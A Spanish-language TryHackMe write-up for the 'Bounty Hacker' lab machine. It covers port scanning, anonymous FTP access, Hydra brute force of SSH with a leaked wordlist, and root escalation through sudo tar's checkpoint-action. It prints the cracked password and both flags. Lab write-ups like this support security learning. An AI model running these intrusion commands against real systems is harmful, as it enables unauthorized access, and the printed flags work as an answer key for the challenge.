# Bounty Hacker - TryHackMe Writeup

## 1. Reconocimiento (Reconnaissance)

Inicié con un escaneo táctico de puertos para identificar servicios expuestos en el objetivo:

```bash
nmap -sS -Pn --min-rate 5000 --top-ports 10000 --open -vvv 10.114.174.249 -oG allPorts
```
Puertos abiertos detectados:

    21/TCP (FTP)

    22/TCP (SSH)

    80/TCP (HTTP)



## 2. Enumeración (Enumeration)
### 2.1. Análisis de Servicios

Realicé un escaneo exhaustivo sobre los puertos encontrados para detectar versiones y ejecutar scripts por defecto:

```Bash
nmap -sCV -p21,22,80 10.114.174.249 -oN targeted
```


Hallazgo clave: El servicio FTP permite el acceso con el usuario anonymous.

### 2.2. Inspección FTP

Al acceder al FTP de forma anónima, localicé dos archivos:

    task.txt: Revela el nombre del usuario del sistema: lin.

    locks.txt: Una lista de posibles contraseñas para un ataque de fuerza bruta.



### 2.3. Leyendo archivos extraídos

En el primer archivo 'locks.txt' encontramos algunas contraseñas.



En el segundo archivo 'task.txt' miramos una asignación de una tarea por parte de un usuario llamado 'lin'.



### 2.4. Enumeracion web

Accedemos a la página web mediante la dirección ip de la máquina, a simple vista no nos aporta nada.



#### 2.4.1 Gobuster

Debido a que no encontramos nada en la propia página ni en el inspector, decido buscar información de rutas a través de Gobuster. 
Finalmente no aportó nada interesante.



## 3. Explotación (Exploitation)
### 3.1. Fuerza Bruta SSH

Ya que por el apartado web no hemos encontrado nada, decido buscar otra opcion utilizando el usuario obtenido (lin) y el diccionario extraído del FTP (locks.txt), junto con Hydra para comprometer el servicio SSH:

```bash
hydra -l lin -P locks.txt ssh://10.114.174.249
```

Credenciales obtenidas: lin:RedDr4gonSynd1cat3



### 3.2. Acceso Inicial

Establecí la conexión SSH para obtener una shell en el sistema:

```bash
ssh lin@10.114.174.249
```


Dentro del propio escritorio del usuario lin se encuentra la flag 'user.txt'



## 4. Escalada de Privilegios (Privilege Escalation)

### 4.1. Análisis de privilegios Sudo
Una vez dentro como el usuario `lin`, listé sus permisos de sudo para buscar vectores de escalada:

```bash
sudo -l
```
Resultado: El usuario lin puede ejecutar /bin/tar como root sin necesidad de contraseña.



### 4.2. Explotación de Binario (GTFOBins)

Utilizando la información de GTFOBins, aproveché que tar tiene parámetros que permiten la ejecución de comandos (--checkpoint-action). Ejecuté el siguiente comando para obtener una shell de root:
Bash

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Éxito: Inmediatamente obtuve una shell con privilegios de root (whoami -> root).



Como la shell no me deja maniobrar correctamente, aplico un tratamiento de la tty con python. Para posteriormente encontrar la flag del usuario root.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



## 5. Flags

Finalmente, capturé las dos banderas de la máquina:
```bash
    User Flag (lin): Localizada en /home/lin/Desktop/user.txt

        THM{CR1M3_SyNd1C4T3}

    Root Flag: Localizada en /root/root.txt

        THM{80UN7Y_h4cK3r}
```